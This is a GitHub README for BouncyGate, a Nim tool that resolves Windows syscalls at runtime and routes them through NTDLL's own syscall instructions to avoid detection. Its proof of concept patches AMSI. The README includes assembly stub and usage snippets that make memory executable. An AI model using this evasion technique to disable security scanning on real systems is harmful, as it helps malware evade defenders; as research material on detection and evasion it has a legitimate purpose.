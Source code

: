 # BouncyGate

This is a modified version of [@zimawhit3's implementation](https://github.com/zimawhit3/HellsGateNim) of HellsGate in Nim, with additionally making sure that all syscalls go through NTDLL, by replacing the syscall instructions with a JMP to the `syscall` instruction in NTDLL that corresponds to the syscall being executed. The syscalls are then used to patch AMSI as a PoC.

See https://eversinc33.github.io/posts/avoiding-direct-syscall-instructions/ for an explanation.

If you would like to learn more about how HellsGate works, you can find smelly__vx's (@RtlMateusz) and am0nsec's (@am0nsec) paper at the [Vx-Underground Github](https://github.com/vxunderground/VXUG-Papers/tree/main/Hells%20Gate).

Install mingw 8.0.0-1, since the newest version has some issues related to relocation that make compilation impossible.

### Usage

First, the syscall stub has to be defined:

```nim
proc NtProtectVirtualMemory(ProcessHandle: Handle, BaseAddress: PVOID, NumberOfBytesToProtect: PULONG, NewAccessProtection: ULONG, OldAccessProtection: PULONG): NTSTATUS {.asmNoStackFrame.} =
    asm """
        mov r10, rcx
        mov eax, `ntProtectSyscall`
        mov r11, `ntProtectSyscallJumpAddress`
        jmp r11
        ret
    """
```

Then the syscall number can be resolved at runtime and the syscall can be used afterwards:

```nim
var ntProtect = resolve_syscall("NtProtectVirtualMemory")
ntProtectSyscall = ntProtect.wSysCall
ntProtectSyscallJumpAddress = ntProtect.syscallJumpAddress
var status = NtProtectVirtualMemory(GetCurrentProcess(), &cs_addr, &p_len, cast[ULONG](PAGE_EXECUTE_READWRITE), &op)
```
